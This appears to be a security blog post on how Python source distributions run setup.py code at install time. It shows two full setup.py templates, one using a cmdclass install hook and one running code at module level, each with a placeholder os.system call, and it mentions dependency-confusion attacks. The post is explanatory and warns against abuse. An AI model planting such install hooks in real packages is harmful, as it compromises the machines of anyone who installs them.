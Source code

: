 ```yaml
---
title: Executing Code on Python Package Installs
date: 2022-09-08T08:39:26-07:00
draft: false
description: How to execute code on a python package install and perform dependency confusion attacks on Pypi
---
```


<br>

# Foreword

Multiple researchers in the community have given dependency confusion and other supply chain attacks a bad name recently. While there are very valid reasons to perform this attack, please do not pollute pypi or any other package manager with typosquatting, stolen code, or other non-targetted attacks in the name of security research. It's no different than spreading malware. The point has been made. Please be responsible.

# Executing code on package install

While most python packages are distributed as wheels, the ["binary" distribution format](https://packaging.python.org/en/latest/specifications/binary-distribution-format/), Pypi also enables developers to distribute their package as [source distributions](https://packaging.python.org/en/latest/specifications/source-distribution-format/) (or sdist). The sdist allows developers to suply the source code as the distribution such that the code is compiled into a wheel by the distutils/setuptools module on the system that installs it by calling the setup.py script that is bundled into the sdist. This will also occur even if the module if the module is downloaded via `pip download`.

As the setup.py script is supplied by the developer, it is easy to hook parts of distutils and supply your own code instead. Most examples use the built-in `cmdclass` parameter on the setup function to hook a specific command given to setup.py. Here is an example:

```python
from setuptools import setup
from setuptools.command.install import install

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

class HookedInstallClass(install):
    def run(self):
        install.run(self)
        bad_stuff()

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
    cmdclass={
        'install': HookedInstallClass,
    },
)
```

You can try this out by simply writing it to a setup.py file in a new directory and running `python setup.py install`

Actually bundling and publishing this code is as easy as `python setup.py sdist` and then uploading it via twine. [See the docs here.](https://docs.python.org/3/distutils/setupscript.html) 

# Without hooking

It's also worth noting that although most examples are hooking other functions using cmdclass in the end python is just running the script you supply and you can get as creative with it as you want. You may still want to keep the setup call however if you would like your module to build and install correctly. The following example will execute code every time setup.py is executed, including when you use it to generate the sdist.

```python
from setuptools import setup

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
)

bad_stuff()
```

# Why is this allowed?

> These are useful for end users wanting to develop your sources, and for end user systems where some local compilation step is required (such as a C extension).

There are many use cases where you might want to compile your code differently on a different machine, check attributes of the system, compile other languages, etc.

# Other thoughts

Attacks on package managers are increasingly being considered as low-effort high-reward opportunities for attackers in much the same way that Android apps and Chrome extensions have historically been abused to distribute malware. This is already becoming a popular attack, and package managers are a particularly soft target due to lack of their own anti-malware teams and permission models.

While it is difficult to prevent these attacks from occurring, it should be easy to detect this technique due to the requirements of a package being distributed as a .tar.gz file and the setup.py entry-point. I hope to see more research in this space.

Thanks to [mschwager](https://github.com/mschwager) for his contributions as well, 0wned is a great example.

# Links

<br>

* https://thehackernews.com/2022/09/warning-pypi-feature-executes-code.html
* https://github.com/mschwager/0wned
